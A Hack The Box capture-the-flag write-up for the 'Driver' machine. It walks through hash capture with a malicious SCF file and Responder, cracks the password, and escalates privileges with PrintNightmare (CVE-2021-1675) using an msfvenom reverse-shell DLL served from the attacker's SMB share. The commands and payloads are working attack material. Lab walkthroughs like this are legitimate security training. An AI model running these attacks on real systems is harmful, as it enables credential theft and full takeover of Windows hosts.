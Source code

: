 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/13531">MrR3boot</a></p>

[![f4T1H21](https://www.hackthebox.eu/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H21>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-24T19:06:51
|_  start_date: 2022-01-24T18:23:54
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

## `445/tcp` SMB service
We can neither log in with dumb credentials nor without credentials.
So there's nothing to do except bruteforce and this is not our first scope though.

## `135/tcp` MSRPC service
### Impacket's `rpcdump` result
We see the box can be vulnerable to PrintNightmare (CVE-2021-1675)

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-rpcdump @10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## `80/tcp` HTTP service
`driver.htb` asks us for an admin password at first and accepts `admin:admin`.

Firmware Update button forwards us to `/fw_up.php`, and we see a file upload section there.

![firmwareUpdates](img/firmwareUpdates.png)

At that point, the initial thought of mine was uploading a php reverse shell as you can expect. But no uploads directory existence, so it didn't make sense.

At this point, I learnt a new attack vector for SMB! Grabbing user's password hashes using `scf` files.

# Foothold: Grab user authentication hash using `smb` path in `scf` files

Let's have a look at what an `scf` file actually is.
>SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

This files are also able to connect an smb share if any given.<br>
The blog post below explains the metodology of abusing this behaviour step by step.

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

- Start an smb server (or a pre-configured relay, such as `responder`).
- Create an scf file.
- Upload it.
- File gets executed as soon as a user browses in the directory of the file. (Look at the squared area in above screenshot)
- Get your NTLM user hash from your server.

By the way, there's a feature in windows (in linux too) that puts files starts with an '@' symbol before other files. And works for folders too.

#### @f4T1H.scf
```
[Shell]
Command=2
IconFile=\\10.10.14.62\doesnot\exists
[Taskbar]
Command=ToggleDesktop
```

#### `responder -w --lm -v -I tun0`

After uploading the file, we receive an authentication attempt in our `responder`.

![responder](img/responder.png)

### John The Ripper
```
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# john -w=/usr/share/wordlists/rockyou.txt ntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-01-25 07:45) 25.00g/s 793600p/s 793600c/s 793600C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

# Privilege Escalation: PrintNightmare (CVE-2021-1675)
First things first, generate a windows reverse shell payload using `msfvenom`.

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# msfvenom -ax64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.42 LPORT=2121 -f dll -o revshell.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: revshell.dll
```

Second things second, clone impacket implementation of PrintNightmare from: https://github.com/cube0x0/CVE-2021-1675

Third things third, start an smb server of your choice (mine is impacket :).

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-smbserver -ip 10.10.16.42 f4T1H .             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Fourth thing fourth, run the exploit with the proper positional arguments.
```console
┌──(root💀f4T1H)-[~/hackthebox/driver/CVE-2021-1675]
└─# python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.42\f4T1H\revshell.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.42\f4T1H\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```

![root](img/root.png)

---

# Resources

|__`SMB SCF file attacks`__|__https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/__|
|:-|:-|
|__`CVE-2021-1675 PrintNightmare`__|__https://github.com/cube0x0/CVE-2021-1675__|

<br>

___─ Written by f4T1H ─___
